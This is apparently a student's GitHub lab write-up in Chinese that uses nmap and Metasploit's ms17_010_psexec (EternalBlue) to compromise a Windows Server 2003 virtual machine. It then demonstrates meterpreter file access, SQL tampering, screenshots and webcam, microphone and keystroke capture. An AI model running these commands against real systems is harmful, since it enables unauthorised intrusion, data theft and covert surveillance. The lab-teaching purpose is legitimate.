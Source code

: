 # NMAP MSF实现对目标系统渗透 

## 实现对Windows XP 或 server 2003的控制

> **信息安全大作业用到了这个项目，就把它贴到这里** 参考资料：https://blog.csdn.net/weixin_44847002/article/details/105263781

1. Metasploit是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。
2. 此次采用kali Linux系统集成的metasploit进行测试验证MS17-010（永恒之蓝，著名比特币勒索漏洞）。实验环境均采用虚拟机。

> **Kali Linux：192.168.0.125**
>
> ![img](srv2003/1.png)
>
> **Windows Server 2003：192.168.0.115**
>
> ![img](srv2003/2.png)

### 1.先使用nmap探测网络中存活主机（设备）

```bash
nmap -sP 192.168.0.0/24
```

![img](srv2003/3.png)

或使用

```bash
netdiscover -i eth0 -r 192.168.0.0/16
```

![img](srv2003/4.png)

### 2.探测网络中的系统类型(nmap)

```bash
nmap -O 192.168.0.0/24
```

![img](srv2003/5.png)

### 3.端口扫描

```bash
nmap -p 1-1024 192.168.0.115
```

![img](srv2003/6.png)

> 端口介绍：
> **21：ftp**
> **80：http**
> 135：服务dcom、rpc的端口----客户机连入系统服务
> 139：netbios文件打印共享服务—共享磁盘
> 445：文件夹共享、打印共享服务

### 4.利用server 2003自身漏洞(ms17-010)进行入侵
前提：Windows server 2003 需要关闭防火墙；入侵前必须初始（`msfdb init`）、启动数据库（`msfdb start`）。

`msfdb status`查看数据库状态

![img](srv2003/7.png)

检测Windows server 2003是否存在ms17-010漏洞

```bash
nmap --script=smb-vuln*.nse 192.168.0.115
```

![img](srv2003/8.png)

准备入侵工具

```bash
msfconsole
```

![img](srv2003/9.png)

打开之后会显示 **msf5 >** 。中间的图案是随机的，每次都不一样。

```bash
msf5 > search ms17_010 
# 搜索漏洞入侵模块
msf5 > use windows/smb/ms17_010_psexec
# 使用这个模块
```

![img](srv2003/10.png)

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.0.115
# 设置攻击目标的IP地址
msf5 exploit(windows/smb/ms17_010_psexec) > run 
# 运行入侵模块
```

<b style="color:red;font-size:large">注意：安装SQL server 2008时需要卸载Powershell相关的所有更新，否则会因为漏洞被修补而入侵失败！（下图为入侵失败照片）</b>

![img](srv2003/11.png)

若出现

`meterpreter >`

，则证明入侵成功。

![img](srv2003/12.png)

meterpreter十分强大，可以在对方机器无任何提示的情况下运行很多命令，其中shell可以直接运行windows的命令提示符（相当于cmd）

入侵结束。下面是测试环节：

> 1. 文件。我们在windows server 2003的C:处创建一个test.txt。
>
> ![img](srv2003/13.png)
>
> ​	利用cat命令可以读取文件
>
> ![img](srv2003/14.png)
>
> ​	利用edit命令可以调用vim修改文件
>
> ![img](srv2003/15.png)
>
> ![img](srv2003/16.png)
>
> ​	利用download命令可以下载文件，利用mkdir可以创建目录，利用rm可以删除文件或目录，利用cp复制文件，利用mv移动文件，利用execute运行文件等等。
>
> ![img](srv2003/17.png)
>
> 2. 数据库。需要用到命令提示符，使用shell命令调用。
>
> ![img](srv2003/18.png)
>
> ​	利用sql命令创建一个叫test的数据库
>
> ![img](srv2003/19.png)
>
> ​	在Windows Server 2003中创建表test_1，并插入两条数据。
>
> ![img](srv2003/20.png)
>
> ​	在kali上进行SQL查询操作，可以查询到刚刚创建的数据。
>
> ![img](srv2003/22.png)
>
> ​	也可以进行添加，修改，删除操作。
>
> ![img](srv2003/23.png)
>
> ![img](srv2003/24.png)
>
> ![img](srv2003/25.png)
>
> 3. 系统操作。比如在cmd命令中停止一个正在运行的进程。
>
> ![img](srv2003/26.png)
>
> ​	在meterpreter中使用screenshot截图。
>
> ![img](srv2003/27.png)
>
> 或者远程播放音乐（play），打开摄像头（webcam_list），录音（record_mic），获取系统级权限（getsystem），监听键盘鼠标操作或者远程操控键盘鼠标，利用kill强制停止进程，利用shutdown关机，利用reboot重启等。 **<完>**